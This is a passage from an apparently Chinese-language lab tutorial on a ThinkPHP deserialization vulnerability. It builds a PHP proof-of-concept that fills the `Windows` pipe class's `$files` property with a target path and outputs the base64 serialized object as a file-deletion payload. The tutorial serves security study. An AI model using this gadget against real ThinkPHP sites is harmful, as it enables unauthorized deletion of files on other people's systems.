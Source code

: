 > 可以看到变量 `$files` 的定义

复制变量 `$files` 所在的类

![复制变量 $files 所在的类](./../../../../images/Deserialization%20of%20untrusted%20data/%E5%A4%8D%E5%88%B6%E5%8F%98%E9%87%8F%20$files%20%E6%89%80%E5%9C%A8%E7%9A%84%E7%B1%BB.png)

删除无用的代码

```php
<?php
namespace think\process\pipes;
use think\Process;
class Windows extends Pipes
{
}
```

在 `C:\phpstudy_pro\WWW\think\public\removefile.php` 构造 POC ， 定义 `private $files = [];` 为 `$this->files=['c:\\hello.txt'];` ，定义一个空的 `Pipes` ，并增加 `public function _construct()` 魔术方法

```php
<?php
//引用命名空间和 Pipes 类
namespace think\process\pipes;
use think\Process;
class Pipes{
}
//Windows 类
class Windows extends Pipes
{
//files 属性
private $files = [];
//__construct 魔术方法
public function __construct()
{
//$this->files 属性的值修改为我们要删除的文件
$this->files=['c:\\hello.txt'];
}
}
//base64 输出序列化后的 Windows 对象
echo base64_encode(serialize(new Windows()));
?>
```
